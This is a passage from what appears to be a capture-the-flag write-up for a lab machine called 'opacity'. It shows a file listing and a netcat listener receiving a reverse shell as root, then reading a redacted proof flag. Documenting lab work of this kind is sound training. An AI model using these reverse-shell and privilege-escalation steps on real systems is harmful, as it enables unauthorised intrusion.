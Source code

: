 ```bash
-rwxr-xr-x 1 root     root     3.9K Jul 26  2022 xmlapi2.php
-rw-rw-r-- 1 sysadmin sysadmin   58 Apr 12 04:50 xmlapi.php
```

Our `netcat` listener has an incoming connection and we now have access to a root shell.

```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.18.11.118] from (UNKNOWN) [10.10.66.215] 42280
root@opacity:/# whoami
root
root@opacity:/# cat /root/proof.txt
a**REDACTED**e
```